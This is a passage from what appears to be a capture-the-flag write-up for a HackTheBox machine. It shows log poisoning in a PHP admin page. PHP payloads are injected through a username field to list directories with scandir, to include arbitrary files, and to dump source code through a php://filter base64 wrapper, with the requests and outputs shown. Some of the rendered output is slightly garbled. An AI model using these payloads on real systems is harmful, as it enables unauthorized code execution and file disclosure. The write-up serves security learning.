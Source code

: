 I know that php can list and read files, as those are done in the `list`
and `show` actions. php is also writing files when it creates these logs
file. So I will use these functions to explore the box.

#### Dir Walk

I will use the php functions `scandir` and `print_r` to list directories
and print the results. If I poison the log with with a
`username=<?php echo print_r(scandir($_GET['dir'])); ?>`, then any time
I call `show` on `webadmin.php`, I can pass in a `dir=[path]`, and the
results will come back. For example,
`action=show&site=hackthebox&password=12345678&session=8870c91857abf06f5f0fe0d9acea7f53d846be75c18ab95a0018a32a6b5518f7&dir=.`:



    [04 March 2019, 10:47:48 AM] 10.10.14.14 - Username: Array
    (
        [0] => .
        [1] => ..
        [2] => index.md
        [3] => webadmin.php
    )
    1, Password: xxxxxx



#### File Read

I can do a similar thing using `include` to read from files. So first
I'll POST with `username=<?php include($_GET['file']);?>`, and then I'll
view
`action=show&site=hackthebox&password=12345678&session=8870c91857abf06f5f0fe0d9acea7f53d846be75c18ab95a0018a32a6b5518f7&dir=.&file=index.md`:



    [04 March 2019, 11:33:35 AM] 10.10.14.14 - Username: <!DOCTYPE.md>
    .md>
      <head>
        <meta http-equiv="refresh" content="0; URL='/'" />
      </head>
      <body>
      </body>
    <.md>
    , Password: xxxxxx



I can also read php files with a php filter. If I set
`file=php://filter/convert.base64-encode/resource=webadmin.php`, then I
get back:



    [04 March 2019, 11:33:35 AM] 10.10.14.14 - Username: PD9waHAKICAkaXBfaGF...[snip]...ID8+Cg==, Password: was here

